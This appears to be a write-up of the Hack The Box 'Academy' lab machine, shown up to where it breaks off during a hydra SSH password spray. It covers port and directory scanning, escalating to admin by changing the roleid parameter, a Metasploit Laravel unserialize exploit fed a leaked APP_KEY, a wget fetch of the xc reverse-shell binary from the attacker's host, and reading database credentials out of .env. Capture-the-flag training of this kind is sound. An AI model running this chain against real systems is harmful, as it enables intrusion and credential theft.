






---
search:
  exclude: true
---
# Academy Writeup

## Introduction :

Academy is an easy Linux box released back in November 2020.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Academy]
    → nmap -vvv -p- 10.10.10.215 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 80/tcp on 10.10.10.215
    Discovered open port 22/tcp on 10.10.10.215
    Discovered open port 33060/tcp on 10.10.10.215
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Academy]
    → nmap -sCV -p80,22,33060 10.10.10.215
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-03 16:45 CEST
    Nmap scan report for 10.10.10.215
    Host is up (0.035s latency).
    
    PORT      STATE SERVICE VERSION
    22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
    |   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
    |_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
    80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Did not follow redirect to http://academy.htb/
    33060/tcp open  mysqlx?
    | fingerprint-strings:
    |   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
    |     Invalid message"
    |_    HY000
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port33060-TCP:V=7.91%I=7%D=6/3%Time=60B8EB24%P=x86_64-pc-linux-gnu%r(NU
    SF:LL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b\x
    SF:08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPOpt
    SF:ions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\x0b\
    SF:x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSVersi
    SF:onBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2B
    SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fIn
    SF:valid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%
    SF:r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\
    SF:x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCookie,
    SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x0
    SF:8\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\
    SF:x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9,
    SF:"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\x
    SF:1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY00
    SF:0")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,9
    SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x08
    SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
    SF:05HY000")%r(LDAPBindReq,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SIPOptions,
    SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0b\x08\x0
    SF:5\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NCP,9,"\
    SF:x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08\x05\x1a
    SF:\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000"
    SF:)%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\x05\0\0\
    SF:0\x0b\x08\x05\x1a\0")%r(oracle-tns,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(
    SF:ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x08
    SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
    SF:05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 25.37 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it: 
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Academy]
    → curl 10.10.10.215
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Academy]
    → curl 10.10.10.215 -v
    *   Trying 10.10.10.215:80...
    * Connected to 10.10.10.215 (10.10.10.215) port 80 (#0)
    > GET / HTTP/1.1
    > Host: 10.10.10.215
    > User-Agent: curl/7.74.0
    > Accept: */*
    >
    * Mark bundle as not supporting multiuse
    <****HTTP/1.1 302 Found <****Date: Thu, 03 Jun 2021 14:54:22 GMT <****Server: Apache/2.4.41 (Ubuntu) <****Location: http://academy.htb/ <****Content-Length: 0 <****Content-Type: text/html; charset=UTF-8 <***** Connection #0 to host 10.10.10.215 left intact

As we try to get there we see that we are being redirected to the **academy.htb** domain name just like our nmap scan pointed out, so let's add it to our hosts file:
    
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Academy]
    → sudo -i
    [sudo] password for nothing:
    ┌──(root💀nowhere)-[~]
    └─# echo '10.10.10.215 academy.htb' >> /etc/hosts
    
    ┌──(root💀nowhere)-[~]
    └─# exit
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Academy]
    → ping academy.htb
    PING academy.htb (10.10.10.215) 56(84) bytes of data.
    64 bytes from academy.htb (10.10.10.215): icmp_seq=1 ttl=63 time=34.5 ms
    64 bytes from academy.htb (10.10.10.215): icmp_seq=2 ttl=63 time=40.5 ms
    64 bytes from academy.htb (10.10.10.215): icmp_seq=3 ttl=63 time=38.1 ms
    
    

Now let's check out the website:

   

Now here we see that we are on a php website, and we could create and login into a test account. Once logged in, the webpage doesn't have anything to exploit, so let's search for other directories with gobuster:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Academy]
    → gobuster dir -u http://academy.htb/ -t 50 -w /usr/share/seclists/Discovery/Web-Content/common.txt
    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://academy.htb/
    [+] Method:                  GET
    [+] Threads:                 50
    [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Timeout:                 10s
    ===============================================================
    2021/06/03 16:55:19 Starting gobuster in directory enumeration mode
    ===============================================================
    /.htpasswd            (Status: 403) [Size: 276]
    /admin.php            (Status: 200) [Size: 2633]
    /images               (Status: 301) [Size: 311] [--> http://academy.htb/images/]
    /index.php            (Status: 200) [Size: 2117]
    /.hta                 (Status: 403) [Size: 276]
    /.htaccess            (Status: 403) [Size: 276]
    /server-status        (Status: 403) [Size: 276]
    
    ===============================================================
    2021/06/03 16:55:29 Finished
    ===============================================================
    
    

` 

Now when we go to the admin.php page that our gobuster scan picked up, we see that we need to login to access it, the trick here was to inspect the **register.php** POST request when we were registering an account, and we can do so using burpsuite:

We get the following request:
    
    
    POST /register.php HTTP/1.1
    Host: academy.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 44
    Origin: http://academy.htb
    Connection: close
    Referer: http://academy.htb/register.php
    Cookie: PHPSESSID=mvopk0hecu88dl9kugslv1ihdp
    Upgrade-Insecure-Requests: 1
    
    uid=test&password;=test&confirm;=test**&roleid; =0**
    
    

Something we didn't know earlier was the **roleid** post parameter set to 0, so we simply change it to **1** and then forward the intercepted request, and then we login to the **admin.php** page:

And upon logging in, we get redirected to **admin-page.php** and we get the following:

Here we're getting hinted towards a subdomain **dev-staging-01.academy.htb** , so let's add it to our hosts file:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Academy]
    → sudo -i
    [sudo] password for nothing:
    ┌──(root💀nowhere)-[~]
    └─# echo '10.10.10.215 dev-staging-01.academy.htb' >> /etc/hosts
    
    ┌──(root💀nowhere)-[~]
    └─# exit
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Academy]
    → ping dev-staging-01.academy.htb
    PING dev-staging-01.academy.htb (10.10.10.215) 56(84) bytes of data.
    64 bytes from academy.htb (10.10.10.215): icmp_seq=1 ttl=63 time=36.5 ms
    64 bytes from academy.htb (10.10.10.215): icmp_seq=2 ttl=63 time=39.9 ms
    64 bytes from academy.htb (10.10.10.215): icmp_seq=3 ttl=63 time=37.9 ms
    
    

Now when we go there we get the following:

Now if you read carefully, you see that this is a php laravel framework instance:

So let's look for exploits to user on that service:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Academy]
    → searchsploit laravel
    -------------------------------------------------------- ---------------------------------
     Exploit Title                                          |  Path
    -------------------------------------------------------- ---------------------------------
    Laravel - 'Hash::make()' Password Truncation Security   | multiple/remote/39318.txt
    Laravel 8.4.2 debug mode - Remote code execution        | php/webapps/49424.py
    Laravel Administrator 4 - Unrestricted File Upload (Aut | php/webapps/49112.py
    Laravel Log Viewer <****0.13.0 - Local File Download       | php/webapps/44343.py
    Laravel Nova 3.7.0 - 'range' DoS                        | php/webapps/49198.txt**PHP Laravel Framework 5.5.40 / 5.6.x <__5.6.30 - token U | linux/remote/47129.rb**
    
    UniSharp Laravel File Manager 2.0.0 - Arbitrary File Re | php/webapps/48166.txt
    UniSharp Laravel File Manager 2.0.0-alpha7 - Arbitrary  | php/webapps/46389.py
    -------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    

we're going to use the ruby exploit that's for metasploit:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Academy]
    → msfconsole
    
    
                     _---------.
                 .' #######   ;."
      .---,.    ;@             @@`;   .---,..
    ." @@@@@'.,'@@            @@@@@',.'@@@@ ".
    '-.@@@@@@@@@@@@@          @@@@@@@@@@@@@ @;
       `.@@@@@@@@@@@@        @@@@@@@@@@@@@@ .'
         "--'.@@@  -.@        @ ,'-   .'--"
              ".@' ; @       @ `.  ;'
                |@@@@ @@@     @    .
                 ' @@@ @@   @@    ,
                  `.@@@@    @@   .
                    ',@@     @   ;           _____________
                     (   3 C    )     /|___ / Metasploit! \
                     ;@'. __*__,."    \|--- \_____________/
                      '(.,..../
    
    
           =[ metasploit v6.0.46-dev                          ]
    + -- --=[ 2135 exploits - 1139 auxiliary - 365 post       ]
    + -- --=[ 592 payloads - 45 encoders - 10 nops            ]
    + -- --=[ 8 evasion                                       ]
    
    Metasploit tip: To save all commands executed since start up
    to a file, use the makerc command
    
    msf6 > search laravel
    
    Matching Modules
    ================
    
       #  Name                                              Disclosure Date  Rank       Check  Description
       -  ----                                              ---------------  ----       -----  -----------
       0  exploit/unix/http/laravel_token_unserialize_exec  2018-08-07       excellent  Yes    PHP Laravel Framework token Unserialize Remote Command Execution
    
    
    Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/http/laravel_token_unserialize_exec
    
    msf6 > use 0
    [*] Using configured payload cmd/unix/reverse_perl
    msf6 exploit(unix/http/laravel_token_unserialize_exec) > show options
    
    Module options (exploit/unix/http/laravel_token_unserialize_exec):
    
       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       APP_KEY                     no        The base64 encoded APP_KEY string from the .env file
       Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<****path>'
       RPORT      80               yes       The target port (TCP)
       SSL        false            no        Negotiate SSL/TLS for outgoing connections
       TARGETURI  /                yes       Path to target webapp
       VHOST                       no        HTTP server virtual host
    
    
    Payload options (cmd/unix/reverse_perl):
    
       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST                   yes       The listen address (an interface may be specified)
       LPORT  4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic

So first let's get the APP key, which we should get from the .env file, but we don't have access to the server yet, so we just grab it from the debug page:

Then we fill the rest of the options we need:
    
    
    msf6 exploit(unix/http/laravel_token_unserialize_exec) > set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
    APP_KEY => dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
    
    msf6 exploit(unix/http/laravel_token_unserialize_exec) > set RPORT 80
    RPORT => 80
    
    msf6 exploit(unix/http/laravel_token_unserialize_exec) > set RHOSTS 10.10.10.215
    RHOSTS => 10.10.10.215
    
    msf6 exploit(unix/http/laravel_token_unserialize_exec) > set VHOST dev-staging-01.academy.htb
    VHOST => dev-staging-01.academy.htb
    
    msf6 exploit(unix/http/laravel_token_unserialize_exec) > set LHOST tun0
    LHOST => 10.10.14.13
    
    msf6 exploit(unix/http/laravel_token_unserialize_exec) > exploit
    

And when we launch the exploit:
    
    
    
    [*] Started reverse TCP handler on 10.10.14.13:4444
    [*] Command shell session 1 opened (10.10.14.13:4444 -> 10.10.10.215:46024) at 2021-06-04 08:52:16 +0200
    
    [*] Command shell session 2 opened (10.10.14.13:4444 -> 10.10.10.215:46026) at 2021-06-04 08:52:16 +0200
    [*] Command shell session 3 opened (10.10.14.13:4444 -> 10.10.10.215:46028) at 2021-06-04 08:52:16 +0200
    [*] Command shell session 4 opened (10.10.14.13:4444 -> 10.10.10.215:46030) at 2021-06-04 08:52:17 +0200
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

We get remote code execution as www-data!
    
    
    
    cat /etc/passwd | grep bash
    root:x:0:0:root:/root:/bin/bash
    egre55:x:1000:1000:egre55:/home/egre55:/bin/bash
    ls -lash /home
    total 32K
    4.0K drwxr-xr-x  8 root     root     4.0K Aug 10  2020 .
    4.0K drwxr-xr-x 20 root     root     4.0K Feb 10 13:12 ..
    4.0K drwxr-xr-x  2 21y4d    21y4d    4.0K Aug 10  2020 21y4d
    4.0K drwxr-xr-x  2 ch4p     ch4p     4.0K Aug 10  2020 ch4p
    4.0K drwxr-xr-x  4 cry0l1t3 cry0l1t3 4.0K Aug 12  2020 cry0l1t3
    4.0K drwxr-xr-x  3 egre55   egre55   4.0K Aug 10  2020 egre55
    4.0K drwxr-xr-x  2 g0blin   g0blin   4.0K Aug 10  2020 g0blin
    4.0K drwxr-xr-x  5 mrb3n    mrb3n    4.0K Aug 12  2020 mrb3n
    
    

Now here we get alot of different users on this box. However for now let's just get a proper reverse shell:
    
    
    which python python3 curl wget nc
    /usr/bin/python3
    /usr/bin/curl
    /usr/bin/wget
    /usr/bin/nc
    
    

Let's upload xc via wget, and then execute it to get a reverse shell:
    
    
    [term1]
    
    [ 10.10.14.13/23 ] [ /dev/pts/90 ] [~/HTB/Academy]
    → cp /home/nothing/HTB/Servmon/xc/xc .
    
    [ 10.10.14.13/23 ] [ /dev/pts/90 ] [~/HTB/Academy]
    → python3 -m http.server 9090
    
    
    [term2]
    
    wget http://10.10.14.13:9090/xc -O /tmp/xc
    
    ls -lash /tmp/xc
    0 -rw-r--r-- 1 www-data www-data 0 Jun  4 07:23 /tmp/xc
    
    chmod +x /tmp/xc
    
    /tmp/xc 10.10.14.13 9002
    
    
    [term3]
    
    [ 10.10.14.13/23 ] [ /dev/pts/90 ] [~/HTB/Academy]
    → ./xc -l -p 9002
    
                    __  _____
                    \ \/ / __|
                    >  <****(__
                    /_/\_\___| by @xct_de
                               build: QUnVVFdLYEkibcKx
    
    2021/06/04 09:17:49 Listening on :9002
    2021/06/04 09:17:49 Waiting for connections...
    2021/06/04 09:17:59 Connection from 10.10.10.215:59984
    2021/06/04 09:17:59 Stream established
    
    [*] Auto-Plugins:
    [xc: /var/www/html/htb-academy-dev-01/public]: !shell
    bash: cannot set terminal process group (1039): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@academy:/var/www/html/htb-academy-dev-01/public$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

Now let's upgrade it to a fully interactive shell:
    
    
    www-data@academy:/var/www/html/htb-academy-dev-01/public$ python3 -c 'import pty; pty.spawn("/bin/bash")'
    www-data@academy:/var/www/html/htb-academy-dev-01/public$ ^Z
    [1]  + 3847836 suspended  ./xc -l -p 9002
    
    [ 10.10.14.13/23 ] [ /dev/pts/90 ] [~/HTB/Academy]
    → stty raw -echo ; fg
    [1]  + 3847836 continued  ./xc -l -p 9002
    $ export TERM=screen-256color
    $ export SHELL=bash
    $stty rows 40 columns 125
    www-data@academy:/var/www/html/htb-academy-dev-01/public$ reset
    

Now that we have our fully interactive reverse TTY shell, let's enumerate the box further:
    
    
    www-data@academy:/var/www/html/htb-academy-dev-01/public$ cd ..
    www-data@academy:/var/www/html/htb-academy-dev-01$ cd ..
    www-data@academy:/var/www/html$ ls
    academy  htb-academy-dev-01  index.php
    www-data@academy:/var/www/html$ cd academy
    www-data@academy:/var/www/html/academy$ ls
    app      bootstrap      composer.lock  database      phpunit.xml  readme.md  routes      storage  vendor
    artisan  composer.json  config         package.json  public       resources  server.php  tests    webpack.mix.js
    www-data@academy:/var/www/html/academy$ ls -a
    .     .env.example    app        composer.json  database      public     routes      tests
    ..    .gitattributes  artisan    composer.lock  package.json  readme.md  server.php  vendor
    .env  .gitignore      bootstrap  config         phpunit.xml   resources  storage     webpack.mix.js
    www-data@academy:/var/www/html/academy$ cat .env
    APP_NAME=Laravel
    APP_ENV=local
    APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
    APP_DEBUG=false
    APP_URL=http://localhost
    
    LOG_CHANNEL=stack
    
    DB_CONNECTION=mysql
    DB_HOST=127.0.0.1
    DB_PORT=3306
    DB_DATABASE=academy
    DB_USERNAME=dev
    DB_PASSWORD=mySup3rP4s5w0rd!!
    
    BROADCAST_DRIVER=log
    CACHE_DRIVER=file
    SESSION_DRIVER=file
    SESSION_LIFETIME=120
    QUEUE_DRIVER=sync
    
    REDIS_HOST=127.0.0.1
    REDIS_PASSWORD=null
    REDIS_PORT=6379
    
    MAIL_DRIVER=smtp
    MAIL_HOST=smtp.mailtrap.io
    MAIL_PORT=2525
    MAIL_USERNAME=null
    MAIL_PASSWORD=null
    MAIL_ENCRYPTION=null
    
    PUSHER_APP_ID=
    PUSHER_APP_KEY=
    PUSHER_APP_SECRET=
    PUSHER_APP_CLUSTER=mt1
    
    MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
    MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"
    

Going back up the filetree we get a password for an user:
    
    
    www-data@academy:/var/www/html/academy$ ls -lash .env
    4.0K -rw-r--r-- 1 www-data www-data 706 Aug 13  2020 .env
    
    

Although obviously this isn't www-data's password, this is probably one of the other users' passwords so let's try each one using hydra :
    
    
    [term1]
    
    www-data@academy:/var/www/html/academy$ ls -lash .env
    4.0K -rw-r--r-- 1 www-data www-data 706 Aug 13  2020 .env
    www-data@academy:/var/www/html/academy$ ls -lash /home
    total 32K
    4.0K drwxr-xr-x  8 root     root     4.0K Aug 10  2020 .
    4.0K drwxr-xr-x 20 root     root     4.0K Feb 10 13:12 ..
    4.0K drwxr-xr-x  2 21y4d    21y4d    4.0K Aug 10  2020 21y4d
    4.0K drwxr-xr-x  2 ch4p     ch4p     4.0K Aug 10  2020 ch4p
    4.0K drwxr-xr-x  4 cry0l1t3 cry0l1t3 4.0K Aug 12  2020 cry0l1t3
    4.0K drwxr-xr-x  3 egre55   egre55   4.0K Aug 10  2020 egre55
    4.0K drwxr-xr-x  2 g0blin   g0blin   4.0K Aug 10  2020 g0blin
    4.0K drwxr-xr-x  5 mrb3n    mrb3n    4.0K Aug 12  2020 mrb3n
    
    
    [term2]
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Academy]
    → cat users.txt
    21y4d
    ch4p
    cry0l1t3
    egre55
    g0blin
    mrb3n
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Academy]
    → cat password.txt
    mySup3rP4s5w0rd!!
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Academy]
    → hydra -L users.txt -P password.txt ssh://10.10.10.215
    Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-04 09:30:00
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
    [DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:6/p:1), ~1 try per task
    [DATA] attacking ssh://10.10.10.215:22/
